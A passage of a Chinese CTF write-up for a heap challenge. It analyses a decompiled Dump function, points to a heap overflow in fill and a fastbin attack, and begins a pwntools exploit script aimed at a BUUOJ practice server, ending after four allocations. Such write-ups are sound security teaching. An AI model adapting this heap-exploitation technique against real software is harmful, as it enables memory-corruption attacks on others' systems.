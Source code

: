 没有uaf。

```c
void Dump(long param_1)

{
  int iVar1;
  
  printf("Index: ");
  iVar1 = GetInput();
  if (((-1 < iVar1) && (iVar1 < 0x10)) && (*(int *)(param_1 + (long)iVar1 * 0x18) == 1)) {
    puts("Content: ");
    PrintHeapContents(*(undefined8 *)(param_1 + (long)iVar1 * 0x18 + 0x10),
                      *(undefined8 *)(param_1 + (long)iVar1 * 0x18 + 8));
    puts("");
  }
  return;
}
```

常规输出。看一圈下来只有fill函数有大漏洞。怎么利用呢？不得不提到经典的[fastbin attack](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/fastbin-attack/)了。放exp逐步分析。

```python
from pwn import *
 
context.log_level = "debug"
 
p = remote("node4.buuoj.cn",27950)
 
def alloc(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size: ")
    p.sendline(str(size))
 
def fill(idx, content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Size: ")
    p.sendline(str(len(content)))
    p.recvuntil("Content: ")
    p.send(content)
 
def free(idx):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
 
def dump(idx):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvline()
    return p.recvline()
 
 
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x10)
```